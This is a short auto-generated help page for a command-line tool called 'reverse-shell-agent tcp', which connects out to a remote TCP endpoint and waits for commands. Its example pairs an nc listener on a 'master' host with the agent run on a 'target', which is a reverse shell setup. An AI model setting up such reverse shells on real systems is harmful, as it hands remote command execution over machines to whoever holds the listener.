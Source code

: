 ## reverse-shell-agent tcp

Agent that connects to a remove tcp endpoints and listen for commands

### Synopsis

Agent that connects to a remove tcp endpoints and listen for commands

```
reverse-shell-agent tcp [flags]
```

### Examples

```
# On the master (1.2.3.4)
$ nc -v -l -p 7777

# On the target
$ reverse-shell-agent tcp --host=1.2.3.4 --port=7777

```

### Options

```
  -h, --help          help for tcp
      --host string   remote host to connect to (default "0.0.0.0")
      --port int32    remote port to connect to (default 8080)
```

### Options inherited from parent commands

```
  -v, --verbose int   Be verbose on log output
```

### SEE ALSO

* [reverse-shell-agent](reverse-shell-agent.md)	 - Agents listening for remote commands

###### Auto generated by spf13/cobra on 1-May-2018
